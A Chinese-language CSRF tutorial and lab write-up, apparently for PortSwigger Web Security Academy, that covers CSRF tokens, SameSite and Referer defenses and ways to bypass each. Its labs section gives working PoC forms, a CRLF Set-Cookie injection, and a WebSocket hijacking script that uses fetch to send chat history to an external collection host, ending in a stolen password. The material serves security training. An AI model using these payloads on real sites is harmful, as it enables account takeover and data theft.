## Cross-site request forgery (CSRF)

跨站请求伪造（也称为 CSRF）是一种网络安全漏洞，允许攻击者诱使用户执行他们无意中执行的操作。它允许攻击者部分绕过同源策略，该策略旨在防止不同的网站相互干扰。



攻击者伪造一个URL诱使用户进行点击，让用户执行无意中的操作（如：修改邮箱，修改密码等）

## CSRF 的条件

- 存在一个敏感或特权的操作，如：修改邮箱，修改其他用户的权限

- 基于` Cookie `的会话处理，网站完全依赖于会话` Cookie `来识别发起请求的用户，没有其他鉴权机制

- 数据包中请求参数，没有不可预测的请求参数，不包含攻击者无法确定或猜测的参数值。例如，当用户更改密码时，如果不知道原密码，则不受攻击

例如：修改邮箱功能

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

使用Burp工具创建CSRF-POC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

执行流程：

用户访问伪造的URL --> 跳转到受攻击网站 --> 他们的浏览器将自动在请求中包含`cookie` --> 更改邮箱

:::note

跨站请求伪造（CSRF）不仅限于基于cookie的会话处理，它确实存在于其他上下文中，比如HTTP基本认证和基于证书的认证

:::

HTTP基本认证（安全性低）

它是base64编码传输

```html
Authorization: Basic dXNlcjpwYXNz
```

基于证书的认证

在基于证书的认证中，用户的客户端证书用于身份验证。当用户访问一个需要证书的受信任站点时，浏览器会自动提供正确的证书给该站点

## CSRF 与 XSS 的区别

- XSS 是攻击者可以执行任意`JavaScript`代码

- CSRF 允许攻击者诱使受害用户执行他们无意中的操作

XSS 漏洞的危害比 CSRF 更严重：

​	CSRF 通常只适用于用户能够执行的一小部分操作。许多网站在一些功能实现了 CSRF 防御，但仍然会忽略一个或两个功能。相反，成功的 XSS 利用通常可以诱使用户执行他们能够执行的任何操作，无论漏洞出现在哪个功能中。

​	CSRF 可以描述为一种**单向**漏洞，因为攻击者可以诱使受害者发出 HTTP 请求，但攻击者收不到响应。相反，XSS 是**双向**的，因为攻击者注入的脚本可以发出任意请求，读取响应，并将数据传输到攻击者选择的外部域。

总结一下就是：

XSS 可以执行任意 JavaScript 代码，而 CSRF 只能使用户执行特定的操作

XSS 是双向漏洞，发送的HTTP请求，可以通过读取响应将数据传输到其他域；CSRF 是单向漏洞，只能让用户执行指定操作，不能获取响应

## 防御措施

成功发现并利用 CSRF 漏洞通常需要绕过目标网站或受害者浏览器部署的反 CSRF 措施

最常见的防御措施如下：

- **CSRF 令牌** - CSRF 令牌是由服务器端应用程序生成的一个唯一、保密且不可预测的值，并与客户端共享。当尝试执行敏感操作（如提交表单）时，客户端必须在请求中包含正确的 CSRF 令牌。这使得攻击者很难代表受害者构造一个有效的请求。

- **SameSite cookies** - SameSite 是一种浏览器安全机制，用于确定网站的 cookie 是否包含来自其他网站的请求中。由于执行敏感操作通常需要经过身份验证的会话 cookie，适当的 SameSite  限制可以防止攻击者跨站触发这些操作。
- **Referer 头部** - 一些应用程序利用 HTTP Referer 头部来尝试防御 CSRF 攻击，通常通过验证请求是否来自应用程序自己的域。这通常比 CSRF 令牌验证效果差。

## Bypass CSRF token

CSRF 令牌是一个由服务器端应用程序生成并共享给客户端的唯一、保密且不可预测的值。当客户端发起请求执行敏感操作，例如提交表单时，必须包含正确的 CSRF 令牌。否则，服务器将拒绝执行请求的操作。

CSRF 令牌通常是一个隐藏的参数，也可能通过 HTTP 头部进行传递

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

### CSRF token 常见的漏洞

#### 修改请求方法

一些网站只在 POST 请求方式时验证 Token 值，而 GET 请求则直接跳过认证

使用 GET 请求绕过验证

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

#### 删除参数

修改数据包，删除 token 验证相关的整个参数，网站不会进行验证

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

#### 未与用户会话关联

某些网站哪个站没有验证令牌是否属于发起请求的用户相同的会话，在一个全局令牌池，网站已发出并接受出现在该池中的任何令牌

利用方式：首先登录自己账号，抓包拿到一个有效的 token 值，放弃这个请求（因为这个 token 是一次性的），利用这个值攻击其他人

简单来说：网站发放的token，是一次性的，但是在使用前所有用户都可以使用，所以这里也只能修改一个受害者的邮箱

#### 令牌绑定到非会话 Cookie

在前面提到的漏洞的一种变体中，某些应用程序确实将 CSRF 令牌与 cookie 关联，但不是与用于**跟踪会话**的同一 cookie  关联。当应用程序采用两个不同的框架，一个用于会话处理，另一个用于 CSRF 保护，且这两个框架没有集成在一起时，这种情况很容易发生：

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

这里有 cookie 中存在两个值，令牌只与 csrfKey 有关

> 这种情况更难被利用，但仍然存在漏洞。如果网站包含任何**允许攻击者在受害者浏览器中设置 cookie 的行为**，那么攻击就是可能的。攻击者可以使用自己的账户登录应用程序，获取有效的 token 和相关 cookie，利用设置  cookie 的行为将他们的 cookie 放入受害者的浏览器，并在 CSRF 攻击中将他们的 token 提供给受害者。

利用方式：首先，存在一个漏洞可以控制 Set-Cookie 头部；然后替换成你自己的csrfKey和token值，绕过验证。利用很困难但是确实是一个漏洞

> 设置 Cookie 的行为甚至不需要存在于 CSRF 漏洞的同一 Web 应用程序中。在同一个整体 DNS 域名内的任何其他应用程序都可能被利用来为被攻击的应用程序设置 Cookie，如果受控 Cookie 具有合适的范围。
>
> 例如， `staging.demo.normal-website.com` 上的设置 Cookie 函数可以被利用来放置一个提交给 `secure.normal-website.com` 的 Cookie

#### 令牌重复在 cookie 中

> 在前一个漏洞的进一步变化中，某些应用程序不维护已发放令牌的服务器端记录，而是将每个令牌在 cookie 和请求参数中重复。
>
> 当后续请求被验证时，应用程序只需验证请求参数中提交的令牌是否与 cookie 中提交的值匹配。
>
> 这有时被称为  CSRF 的"双重提交"防御措施，因为它易于实现且避免了任何服务器端状态的需求

Cookie中的值和参数中的值相同即可

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

在这种情况下，如果网站包含任何设置 cookie 的功能，攻击者仍然可以执行 CSRF 攻击，

## 绕过 SameSite cookie

​	SameSite 是一种浏览器安全机制，用于确定网站的 cookie 是否包含在其他网站发起的请求中。SameSite cookie 限制可部分防范多种跨站攻击，包括 CSRF、跨站泄露以及某些 CORS 滥用。

在 SameSite cookie 限制的上下文中，站点被定义为顶级域名（TLD），即TLD是：`.com`、`.net`

另，从 `http://app.example.com` 到 `https://app.example.com` 的链接在大多数浏览器中被视为跨站

**判断是否是同站**

TLD：`.com`

TLD+1：`.example.com`

scheme：`https`

site：`https://app.example.com`



有效顶级域名（eTLD）这个术语。这只是一个用来计算实际被视为顶级域名的保留多部分后缀的方式，例如：`.co.uk`

### 站点和源点的区别？

> site and origin

**站点和源点之间的区别在于它们的范围**：一个站点包含多个域名，而一个源点只包含一个域名

尽管它们关系密切，但重要的是不要将这两个术语混用，因为混淆两者可能会带来严重的安全影响



| **Request from**          | **Request to**                 | **Same-site?**    | **Same-origin?** |
| :------------------------ | :----------------------------- | :---------------- | :--------------- |
| `https://example.com`     | `https://example.com`          | 是                | 是               |
| `https://app.example.com` | `https://intranet.example.com` | 是                | 不是：不同的域名 |
| `https://example.com`     | `https://example.com:8080`     | 是                | 不是：不同的端口 |
| `https://example.com`     | `https://example.co.uk`        | 不是：不同的TLD+1 | 不是：不同的域名 |
| `https://example.com`     | `http://example.com`           | 不是：不同的协议  | 不是：不同的协议 |

site：只考虑协议和域名（eTLD）

origin：协议、域名、端口必须相同

### SameSite

SameSite 机制控制浏览器和网站，限制在一些跨站请求时包含特定的 cookie 来请求

由于这些请求通常需要与受害者认证会话关联的 cookie，如果浏览器不包含这个 cookie，攻击就会失败。

SameSite 的限制级别：

- Strict（严格）
- Lax（宽松）
- None（无）

开发者可以手动为每个他们设置的 cookie 配置限制级别，从而更好地控制这些 cookie 的使用时机。为此，他们只需在 `Set-Cookie` 响应头中包含 `SameSite` 属性

```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```

#### Strict

如果 cookie 设置了 `SameSite=Strict` 属性，浏览器不会在任何跨站请求中发送它。

简单来说，这意味着如果请求的目标站点与浏览器地址栏中当前显示的站点不匹配，它将不会包含该 cookie

#### Lax

`Lax` SameSite 限制意味着浏览器只有在同时满足以下两个条件时，才会向跨站请求发送 cookie：

- 使用GET请求
- 该请求是由用户进行顶级导航产生的，例如点击链接

这样 cookie 不会包含在POST请求中，同样 cookie 不会包含在后台请求中，例如：script、iframes、img等

#### None

如果 Cookie 设置了 `SameSite=None` 属性，这会完全禁用 SameSite 限制，无论浏览器如何。

因此，浏览器会在所有对该 Cookie 发行网站的请求中发送此 Cookie，即使这些请求是由完全无关的第三方网站触发的。

当使用 `SameSite=None` 设置 cookie 时，网站还必须包含 `Secure` 属性，这确保了 cookie 仅在 HTTPS 加密消息中发送。否则，浏览器将拒绝该 cookie，且不会设置。

```
Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure
```

### GET 请求绕过 Lax 限制

只要涉及顶级导航，浏览器就会包含 cookie，如：

```
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

另外，一些框架可以覆盖请求行中的指定请求方法；

例如，Symfony 支持表单中的 `_method` 参数，该参数在路由目的上优先于普通方法

```
<form action="https://0a1e007604cb1a0882271530002600f8.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="_method" value="GET">
	<input type="hidden" name="email" value="wiener2&#64;normal&#45;user&#46;net" />
	<input type="submit" value="Submit request" />
 </form>
```

### 重定向绕过 Strict 限制

严格模式，浏览器不会在任何跨站请求中包含 cookie，所以可以在当前网站中找到一个次级请求的功能，跳转到敏感路由

例如：

提交一个评论id为1，之后网站会自动跳转到`/post/1`

```
/post/comment?id=1 --> /post/1
```

构造恶意请求

```
/post/comment?id=1../../user --> /post/1../../user --> /user
```

这是同站请求，能够完全绕过任何 SameSite cookie 限制

### 同级域名绕过 Strict 限制

在测试网站时，即使请求是跨域发出的，仍然可能是同站请求

> 如果请求是从一个子域名向另一个子域名发送请求，且这两个子域名归属于同一个主域名，则可以将其视为同站请求。
>
> 例如：从 `api.example.com` 请求 `www.example.com`，两者都归属于 `example.com`

如果一个子域名存在 XSS 漏洞，那么就可以跨站攻击所有同级域名

经典的就是 `CSRF + XSS`漏洞，如果目标网站支持 WebSocket，这种功能可能会受到跨站 WebSocket 劫持（CSWSH）的攻击，这本质

上就是针对 WebSocket 握手的 CSRF 攻击

## 绕过 Referer 限制

一些网站利用 HTTP` Referer `头部限制 CSRF 攻击，验证是否来自可信任域；效果较差，比较容易绕过

` Referer `头是一个可选的请求头，告诉服务器该网页是从哪个页面链接过来的；当用户点击链接或者提交表单时，浏览器自动添加该头

### 删除 Referer 头

通过删除`Referer `头部信息，测试 CSRF 漏洞，成功绕过限制

在html中去除`referer`头部

当设置为 `no-referrer` 时，浏览器在用户从当前页面导航到其他页面时，不会发送来源页面的URL。这有助于保护用户的隐私，防止网站获取用户的浏览历史。

```html
<head>
    <meta name="referrer" content="no-referrer">
</head>
```

### 绕过 Referer 验证

一些网站只通过简单的方式验证`Referer`头部，例如：

网站验证`Referer`中的域名以指定内容开头，攻击者可以通过设置子域名绕过

```
http://test-website.com.hacker-website.com/csrf-attack
```

另，网站只验证`Referer`中是否包含自己的域名，攻击者可作为参数绕过

```
http://hacker-website.com/csrf-attack?test-website.com
```

> 为了减少敏感信息泄露的风险，许多浏览器默认或从Referer中删除查询字符串（即GET参数）
>
> 如果网站响应设置了 `Referrer-Policy: unsafe-url` 头部来覆盖这种行为，就可以发送完整的URL，包括查询字符串

## labs

### CSRF 无防护

使用CSRF攻击来更改查看者的邮箱地址

给了一个账号：`wiener:peter`

抓到修改邮箱的数据包，生成一个POC



```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0acf00a704f25e7f80a4037f00830075.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1e&#64;exemplo&#46;us" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

访问自动提交表单

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.135.134/xss3.php" method="POST">
      <input type="hidden" name="username" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="password" value="123" />
      <input style="display:none" id="submit" type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submit").click();
    </script>
  </body>
</html>
```

### GET 请求绕过

自己的账户：`wiener:peter`

修改 token 值显示无效



抓一个修改邮箱的数据包，修改成 GET方式

不再验证token



```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script src="https://0aec009b04e8530e802a0d9d00b700cd.web-security-academy.net/my-account/change-email?email=test%40normal-user.net"></script>
  </body>
</html>
```

### 删除token参数



将参数值置空



将整个参数删掉，成功修改



**漏洞利用**

生成一个POC

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1600f804e6209ecb7a570b00ff001a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;normal&#45;user&#46;net" />
      <input style="display:none" id="submit" type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submit").click();
    </script>
  </body>
</html>
```

填到漏洞服务器上，点击受害利用



### 未与用户会话关联

抓包，记住这个token的值，然后将包丢掉，这时候就拿到一个所有用户都可以使用的token



生成一个POC

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae2004203e50514801a1ca100b80069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos&#64;carlos&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="lRxIeQIAbphHlQX9Eo4yJIvcXPCjCXXA" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

只能修改一个受害用户的邮箱

### 令牌绑定到非会话 Cookie

请求包中Cookie中存在两个值，通过修改他们的值发现，token值只与 csrfKey 相关联

```html
Cookie: csrfKey=g5XgqJDC5EutdpfVRwySkOXYVfYKjFZv; session=akyepxzO1xDRBybcuQGSWM9gfLjzqkDt;
```

我修改了csrfkey的值，发现token就不能用了；而更改session值就要重新登录

这表明可能token值只与csrfKey绑定，未与会话绑定



打开无痕窗口，登录另一个账号

将下面两处修改成第一个账号的，发现可以成功修改



在搜索功能，搜索词会反映在 Set-Cookie 头部，而搜索功能没有 CSRF 防护



```html
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```



```html

```

最终，先修改csrfKey，然后再 csrf 利用，csrfKey和token值必须是绑定的

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
      
    <form action="https://0abb00ab0472318382f92404009600a5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test11&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="KBRQ8ZJCwnrIHkyi1Tnx5xO8Q74rE9xK" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 令牌重复在 cookie 中

这两个值相同就可以，这里任意内容就可以



跟上面一样，首先 Set-Cookie 头部



```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  
    <form action="https://0a7400100491d9f080ee12b0003d00fa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos111&#64;carlos&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="yl5DQq0Zeifl39WK6jAHuTaHjrNJ51Ed" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



### GET 请求绕过 Lax 限制



浏览器默认 Lax 级别限制，需要通过顶级导航和GET请求绕过

添加 `_method` 参数来覆盖方法，首先通过GET传参绕过，然后 `_method` 参数覆盖成POST请求

payload：

```
<script>
    document.location = "https://0a1e007604cb1a0882271530002600f8.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

### 重定向 SameSite Strict 绕过

Strict 限制



发表评论成功之后，存在下面的URL

```
/post/comment/confirmation?postId=1
```

然后会跳转到

```
/post/1
```

通过抓包，找到一个 JS 文件



直接拼接` postid `进行跳转

利用`../`，构造恶意请求

```
/post/comment/confirmation?postId=1/../../my-account/change-email?email=carlos1%40carlos-montoya.net%26submit=1
```

payload：

注意`&`符号编码

```
<script>
document.location = "https://0a35007904c8d0f181b45d1f001100d7.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=carlos11%40carlos-montoya.net%26submit=1"
</script>
```

### 同级域名绕过 Strict 限制

跨站 WebSocket 劫持（CSWSH）

在`/chat`聊天功能，刷新聊天页面，浏览器向服务器发送`READY`信息，表明客户端已经准备好进行通信，这会导致服务器响应整个聊天历史记录



编写利用脚本，放到攻击服务器

```
<script>
    var ws = new WebSocket('wss://0a71007f039cc15780c6037d00a2006d.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://xfggfs18gjuveqqcpejjqbiuclic62ur.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

暴露聊天记录



访问图片文件包含`Access-Control-Allow-Origin`，存在另一域名



存在一个登录表单



提交表单显示无效用户名，该处存在`self-xss`



通过 XSS 漏洞跳转另一网站 CSWSH（劫持） 漏洞，这样绕过 Strict 限制（浏览器视为同站请求）

URL编码

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%37%31%30%30%37%66%30%33%39%63%63%31%35%37%38%30%63%36%30%33%37%64%30%30%61%32%30%30%36%64%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%78%66%67%67%66%73%31%38%67%6a%75%76%65%71%71%63%70%65%6a%6a%71%62%69%75%63%6c%69%63%36%32%75%72%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

另一同级域名的 XSS 漏洞

> https://cms-0a71007f039cc15780c6037d00a2006d.web-security-academy.net
>
> https://0a71007f039cc15780c6037d00a2006d.web-security-academy.net

此处GET请求也可正常提交参数

```
<script>
    document.location = "https://cms-0a71007f039cc15780c6037d00a2006d.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%37%31%30%30%37%66%30%33%39%63%63%31%35%37%38%30%63%36%30%33%37%64%30%30%61%32%30%30%36%64%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%78%66%67%67%66%73%31%38%67%6a%75%76%65%71%71%63%70%65%6a%6a%71%62%69%75%63%6c%69%63%36%32%75%72%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=peter";
</script>
```

放到攻击服务器上，发送受害者请求

查看聊天记录



```
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s catvhqpm8t3cptnp2vyp"}
```

获取凭据：`carlos:catvhqpm8t3cptnp2vyp`


### Referer 验证依赖于存在请求头

存在`Referer`，并且不是信任域



直接删除`Referer`，成功修改



`no-referrer`，当用户跳转到其他页面时，不会发送来源页面的URL，用于保护用户隐私

```
<meta name="referrer" content="no-referrer">
```

payload

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <meta name="referrer" content="no-referrer">
    <form action="https://0a4200a1033c217f809603170053003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



### 绕过 Referer 验证

测试发现，包含域名即可成功修改



设置查询字符串，新的URL地址

```
history.pushState('', '', '/?0ad800fc042df88280f9800c00fa0042.web-security-academy.net');
```

为了显示查询字符串，在攻击服务器上添加响应头

```
Referrer-Policy: unsafe-url
```

表示可以发送完整的URL地址，这里就是：

> https://exploit-0acc00bf04c6f88780527f1b012c00d7.exploit-server.net/?0ad800fc042df88280f9800c00fa0042.web-security-academy.net





```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ad800fc042df88280f9800c00fa0042.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ad800fc042df88280f9800c00fa0042.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

